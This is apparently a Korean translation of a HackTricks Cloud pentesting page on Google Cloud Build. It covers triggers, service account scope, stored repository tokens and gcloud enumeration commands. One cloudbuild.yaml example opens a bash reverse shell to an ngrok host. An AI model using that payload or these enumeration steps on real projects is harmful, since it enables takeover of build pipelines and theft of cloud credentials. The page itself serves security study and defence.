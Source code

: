 # GCP - Cloud Build Enum

<details>

<summary><strong>htARTE (HackTricks AWS Red Team 전문가)로부터 AWS 해킹을 처음부터 전문가까지 배우세요!</strong></summary>

HackTricks를 지원하는 다른 방법:

- **회사가 HackTricks에 광고되길 원하거나 HackTricks를 PDF로 다운로드하길 원한다면** [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
- [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
- 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)를 **팔로우**하세요.
- 여러분의 해킹 기술을 공유하려면 [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소로 PR을 제출하세요.

</details>

## 기본 정보

Google Cloud Build는 **소프트웨어 빌드 및 릴리스 프로세스를 자동화**하며 **소스 코드 저장소와 통합**되어 다양한 프로그래밍 언어를 지원하는 관리형 CI/CD 플랫폼입니다. 개발자들이 코드를 **자동으로 빌드, 테스트 및 배포**할 수 있도록 하며 빌드 단계와 워크플로를 사용자 정의할 수 있습니다.

각 Cloud Build 트리거는 **Cloud 저장소와 관련**이 있거나 외부 저장소(Github, Bitbucket 및 Gitlab)와 직접 연결됩니다.

{% hint style="success" %}
여기나 Cloud 저장소에서 Github/Bitbucket 토큰을 **도용할 수 있는 방법을 볼 수 없었습니다.** 왜냐하면 저장소가 다운로드될 때 [https://source.cloud.google.com/](https://source.cloud.google.com/) URL을 통해 액세스되며 Github는 클라이언트에 의해 액세스되지 않기 때문입니다.
{% endhint %}

### 이벤트

Cloud Build는 다음 경우에 트리거될 수 있습니다:

- **브랜치로 푸시**: 브랜치 지정
- **새 태그로 푸시**: 태그 지정
- **풀 리퀘스트**: PR을 받는 브랜치 지정
- **수동 호출**
- **Pub/Sub 메시지**: 주제 지정
- **웹훅 이벤트**: HTTPS URL을 노출하며 요청은 비밀로 인증되어야 함

### 실행

3가지 옵션이 있습니다:

- yaml/json을 사용하여 **실행할 명령을 지정**합니다. 일반적으로: `/cloudbuild.yaml`
- 웹 콘솔 및 CLI에서 "인라인"으로 지정할 수 있는 하나
- 가장 일반적인 옵션
- 인증되지 않은 액세스에 관련이 있음
- 빌드할 **Dockerfile**
- 빌드할 **Buildpack**

### SA 권한

**서비스 계정에는 `cloud-platform` 스코프가 있으므로 모든 권한을 사용**할 수 있습니다. **SA가 지정되지 않은 경우**(제출 시와 같이) **기본 SA** `<proj-number>@cloudbuild.gserviceaccount.com`이 **사용**됩니다.

기본적으로 권한이 부여되지 않지만 쉽게 부여할 수 있습니다:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 승인

Cloud Build를 구성하여 빌드 실행에 대한 **승인을 요구**할 수 있습니다(기본적으로 비활성화됨).

### PR 승인

트리거가 PR인 경우 **누구나 공개 저장소에 PR을 수행**할 수 있기 때문에 **어떤 PR이든 트리거 실행을 허용하는 것은 매우 위험**할 수 있습니다. 따라서 기본적으로 실행은 **소유자 및 협력자에게만 자동으로** 이루어지며 다른 사용자의 PR로 트리거를 실행하려면 소유자 또는 협력자가 `/gcbrun`을 코멘트해야 합니다.

<figure><img src="../../../.gitbook/assets/image (150).png" alt="" width="563"><figcaption></figcaption></figure>

### 연결 및 저장소

연결은 다음을 통해 생성할 수 있습니다:

- **GitHub:** **Github 토큰을 얻기 위한 권한을 요청**하는 OAuth 프롬프트가 표시되며 이 토큰은 **Secret Manager에 저장**됩니다.
- **GitHub Enterprise:** **GithubApp**을 설치하라는 요청이 표시됩니다. GitHub Enterprise 호스트에서 **인증 토큰**이 생성되어 이 프로젝트에 **Secret Manager** 시크릿으로 저장됩니다.
- **GitLab / Enterprise:** **API 액세스 토큰 및 Read API 액세스 토큰**을 제공해야 하며 이는 **Secret Manager에 저장**됩니다.

연결이 생성되면 Github 계정이 액세스할 수 있는 저장소를 **연결**할 수 있습니다.

이 옵션은 다음 버튼을 통해 사용할 수 있습니다:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
이 방법으로 연결된 저장소는 **2세대를 사용하는 트리거에서만 사용 가능**합니다.
{% endhint %}

### 저장소 연결

이는 **`연결`과는 다릅니다**. 이는 **Github 또는 Bitbucket** 저장소에 액세스하는 **다양한** 방법을 제공하지만 **연결 객체를 생성하지 않고 저장소 객체(1세대)를 생성**합니다.

이 옵션은 다음 버튼을 통해 사용할 수 있습니다:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 저장

가끔 Cloud Build는 **트리거 파일을 저장할 새로운 저장소를 생성**할 수 있습니다. 예를 들어 GCP가 제공하는 예제에서 발생합니다.
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
### 쉘 획득
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
클라우드 빌드 내에서 gcloud를 설치합니다:
```bash
# https://stackoverflow.com/questions/28372328/how-to-install-the-google-cloud-sdk-in-a-docker-image
curl https://dl.google.com/dl/cloudsdk/release/google-cloud-sdk.tar.gz > /tmp/google-cloud-sdk.tar.gz
mkdir -p /usr/local/gcloud
tar -C /usr/local/gcloud -xvf /tmp/google-cloud-sdk.tar.gz
/usr/local/gcloud/google-cloud-sdk/install.sh
```
### 열거

**빌드 구성 및 로그에서 민감한 정보를 찾을 수 있습니다**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### 권한 상승

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### 인증되지 않은 액세스

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### 사후 공격

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 제로에서 영웅까지 AWS 해킹을 배우세요!</summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 PDF로 다운로드하려면** [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f)에 가입하거나 [**텔레그램 그룹**](https://t.me/peass)에 가입하거나** 트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **HackTricks** 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하여 해킹 트릭을 공유하세요.

</details>
